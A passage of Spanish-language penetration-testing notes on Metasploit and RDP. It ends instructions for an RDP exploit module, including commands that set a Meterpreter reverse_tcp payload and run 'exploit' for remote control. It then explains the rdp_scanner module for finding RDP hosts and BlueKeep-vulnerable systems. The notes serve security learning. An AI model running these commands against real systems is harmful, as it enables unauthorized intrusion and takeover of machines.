 					    - **RPORT**: El puerto de RDP (por defecto es 3389).
					        
					    - **PAYLOAD**: Definir qué tipo de código malicioso deseas ejecutar en el sistema objetivo. Por ejemplo:
					        					        
					        `set PAYLOAD windows/x64/meterpreter/reverse_tcp set RHOSTS <dirección IP objetivo> set LHOST <dirección IP de tu máquina atacante>`
					        
					3. **Ejecutar el exploit**:
					    
					    Una vez configurados los parámetros, puedes ejecutar el módulo usando el comando:
					    
					    `exploit`
					    
					4. **Obtener una sesión**: Si el ataque es exitoso, se establecerá una sesión de **Meterpreter** (o el payload configurado) con el sistema afectado, brindando control remoto completo.
		- **Modulo para escanear host
			- El módulo **rdp_scanner** de Metasploit es una herramienta de escaneo diseñada para detectar hosts que tienen el **Protocolo de Escritorio Remoto (RDP)** habilitado. RDP es un protocolo de comunicación usado en sistemas Windows que permite a los usuarios conectarse de forma remota a otras máquinas a través de una interfaz gráfica. Este módulo no es un exploit, sino un escáner que se utiliza para identificar sistemas que están expuestos mediante RDP, lo cual es útil en pruebas de penetración para detectar posibles vectores de ataque.
			- ### Objetivo del Módulo rdp_scanner

				- El propósito principal de **rdp_scanner** es:

					1. **Identificar hosts con RDP habilitado**: Escanea una lista de direcciones IP o un rango de red para encontrar máquinas con el puerto 3389 abierto, que es el puerto predeterminado para RDP.
					2. **Determinar la versión del protocolo**: A veces puede ofrecer información sobre la versión de RDP que está ejecutando el sistema, lo cual ayuda a identificar si el sistema es vulnerable a exploits conocidos, como el famoso **BlueKeep (CVE-2019-0708)**, una vulnerabilidad crítica en versiones antiguas de RDP.
			- ### Usos Comunes en Seguridad y Pruebas de Penetración

				- En un entorno de seguridad o pruebas de penetración, el escáner RDP de Metasploit es útil para:
					
					- **Reconocimiento**: Detectar máquinas con RDP habilitado es un paso importante en la fase de reconocimiento. Si se encuentran sistemas que exponen RDP en una red, pueden ser objetivos de futuros ataques.
					- **Identificación de posibles vulnerabilidades**: Conocer qué máquinas tienen RDP activo y saber si tienen configuraciones inseguras o sin parches permite al probador de penetración evaluar si existen vulnerabilidades explotables, como BlueKeep.
					- **Evaluación de configuraciones de seguridad**: Determinar si RDP está habilitado en máquinas donde no debería estarlo o si se está usando en redes públicas sin las configuraciones de seguridad adecuadas.
			- ### Cómo Usar el Módulo rdp_scanner en Metasploit

				- Para usar **rdp_scanner** en Metasploit, sigue estos pasos:
					
					1. **Abrir Metasploit**: Ejecuta `msfconsole` en tu terminal para abrir la consola de Metasploit.
					    
					2. **Seleccionar el Módulo rdp_scanner**:
					    					    
					    `use auxiliary/scanner/rdp/rdp_scanner`
					    
					3. **Configurar las Opciones**: Configura las opciones requeridas para el escaneo, como el rango de IP o la dirección IP de destino.
					    